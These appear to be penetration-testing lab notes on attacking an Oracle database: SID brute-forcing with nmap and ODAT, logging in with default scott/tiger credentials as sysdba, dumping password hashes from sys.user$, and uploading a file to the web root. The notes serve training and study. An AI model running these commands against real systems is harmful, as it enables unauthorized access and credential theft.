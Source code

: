 <b>Testing ODAT (pentest tool written in Python)</b>
```bash
./odat.py -h

# map service
sudo nmap -p1521 -sV 10.129.204.235 --open
```

There are various ways to enumerate, or better said, guess SIDs. Therefore we can use tools like nmap, hydra, odat, and others. Let us use nmap first.

```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

./odat.py all -s 10.129.204.235
```

In this example, we found valid credentials for the user scott and his password tiger. After that, we can use the tool sqlplus to connect to the Oracle database and interact with it.

```bash
sqlplus scott/tiger@10.129.204.235/XE;
```

If you come across the following error sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).


[SQL command enumerate databases](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985)

<b>Oracle RDBMS - Database Enumeration</b>
```bahs
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

<b>Extract pw hashes</b>
```bash
SQL> select name, password from sys.user$;
```

<b>Default paths</b>
```bash
OS 	Path
Linux 	/var/www/html
Windows 	C:\inetpub\wwwroot
```

<b>Oracle RDBMS - File Upload</b>
```bash
echo "Oracle File Upload Test" > testing.txt

./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

curl -X GET http://10.129.204.235/testing.txt
```

